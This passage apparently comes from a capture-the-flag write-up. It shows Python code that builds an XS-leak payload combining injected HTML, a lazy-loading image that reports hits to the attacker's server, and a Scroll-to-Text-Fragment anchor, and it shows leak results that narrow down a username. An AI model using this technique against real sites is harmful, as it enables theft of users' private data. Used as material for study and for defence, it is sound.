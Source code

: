 ```python
anchor = f"{emoji}%0A{char}"
payload = f"<div style='height: 10000px; width:100%; display: block;'>padding</div><div style='display: block'> IFHITNOTCHAR </div><img loading='lazy' src='{context['my_server']}/hit/{anchor}'>"
sstf_payload = f"#:~:text={anchor}&text=IFHITNOTCHAR" 
target_with_payload = context['target_internal'] + f"/dashboard?cok={quote(payload)}{sstf_payload}"
return render_template("redirect.html", url=target_with_payload)
```

After the first filtering, I now pair a single emoji with a single character one by one. This is to filter out the characters that aren't being paired by each emoji.&#x20;

```json
"^_^": [
    "r",
    "R"
],
">_<": [
    "x",
    "X"
],
"owo": [
    "g",
    "G"
],
":3": [
    "t",
    "T"
],
"uwu": [
    "y",
    "Y"
],
"xD": [
],
"._.": [
],
"o_o": [
],
"T_T": [
],
..... etc
```

We can see the possible word are only `rgtxy` or its uppercase variants, as from emoji `xD` and below is empty. Luckily, the author is nice and the username is short and doesn't use any weird characters.

<figure><img src="../../.gitbook/assets/2025-09-10_20-28.png" alt=""><figcaption></figcaption></figure>
